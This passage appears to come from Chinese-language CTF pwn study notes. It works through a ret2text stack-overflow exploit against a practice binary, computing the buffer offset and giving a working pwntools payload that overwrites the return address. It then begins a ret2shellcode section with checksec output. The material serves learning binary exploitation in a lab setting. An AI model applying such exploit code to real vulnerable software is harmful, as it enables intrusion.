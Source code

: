 ```assembly
esp为0xffffcfd0
ebp为0xffffd058
s地址：0xffffcfec
s相对于ebp偏移：0xffffd058-0xffffcfec=0x6c
```



最终payload如下：

```python
from pwn import *
p=process('./ret2text')
target=0x804863a
p.sendline(b'A'*(0x6c+4)+p32(target)) #覆盖返回地址 
#虽说栈从高地址向低地址生长
#但字符串，数组等从低地址向高地址覆写
#32位程序中内存以四字节对齐，所以ebp和返回地址都是4字节,0x6c多加4覆盖了ebp，
#后面的p32(target)覆盖了返回地址
p.interactive()
```

![image-20250212214949922](./ctf-wiki-pwn-learning.assets/image-20250212214949922.png)



### 2. ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

**在新版内核当中引入了较为激进的保护策略，程序中通常不再默认有同时具有可写与可执行的段，这使得传统的 ret2shellcode 手法不再能直接完成利用**。



```
checksec ./ret2shell*
[*] '/home/seveng0/Desktop/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
